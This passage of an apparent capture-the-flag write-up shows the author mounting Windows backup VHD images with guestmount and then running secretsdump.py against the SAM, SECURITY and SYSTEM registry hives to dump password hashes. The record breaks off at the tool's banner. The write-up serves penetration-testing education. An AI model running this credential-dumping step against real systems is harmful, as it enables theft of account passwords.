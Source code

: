     /mnt/WindowsImageBackup/L4mpje-PC/SPPMetadataCache/{cd113385-65ff-4ea2-8ced-5630f6feca8f}
    

I see two disk image vhd files.

#### Mount vhd

I’m going to mount the virtual disk files and see what I can find in them.
First, I’ll install `guestmount` with `apt install libguestfs-tools`, a [tool
for mounting virtual hard disk files](https://linux.die.net/man/1/guestmount)
on Linux.

Now, I’ll try to mount each of the two VHD files. The first one fails:

    
    
    root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
    guestmount: no operating system was found on this disk
    
    If using guestfish ‘-i’ option, remove this option and instead
    use the commands ‘run’ followed by ‘list-filesystems’.
    You can then mount filesystems you want by hand using the
    ‘mount’ or ‘mount-ro’ command.
    
    If using guestmount ‘-i’, remove this option and choose the
    filesystem(s) you want to see by manually adding ‘-m’ option(s).
    Use ‘virt-filesystems’ to see what filesystems are available.
    
    If using other virt tools, this disk image won’t work
    with these tools.  Use the guestfish equivalent commands
    (see the virt tool manual page).
    

The second one works, providing access to what looks like a Windows file
system root:

    
    
    root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
    root@kali# ls /mnt2/
    '$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows
    

## Shell as l4mpje

### Dump Hashes From Registry

With full access to the file system, I have access to the registry files.
These files can be locked when the system is running, but I won’t have that
issue on a mounted drive. In the `config` directory where the registry hives
are stored, I’ll use `secretsdump.py` to dump the password hashes:

    
    
    root@kali:/mnt2/Windows/System32/config# secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
    